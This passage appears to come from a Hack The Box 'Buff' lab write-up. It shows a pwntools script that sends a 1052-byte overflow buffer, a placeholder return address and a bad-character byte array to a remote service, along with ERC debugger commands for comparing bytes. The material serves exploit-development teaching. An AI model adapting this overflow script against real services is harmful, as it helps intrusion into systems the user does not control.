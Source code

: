 new bytearray
```python

from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4
    
    all_chars=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe")

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()   
```

I create another byte-array omitting those characters in ERC `ERC --bytearray -bytes \x00\x0a\x0d\xff` this will create another two files ByteArray_2.txt and ByteArray_2.bin

![Desktop View](/img/htb/buff/erc_1.png)

I reload the program in the debugger, send the new byte-array and compare the characters with ERC
`erc --compare 0x00A3AA30 C:\users\user\desktop\bytearray_2.bin`

everything is correct 

![Desktop View](/img/htb/buff/no_bad_chars_2.png)
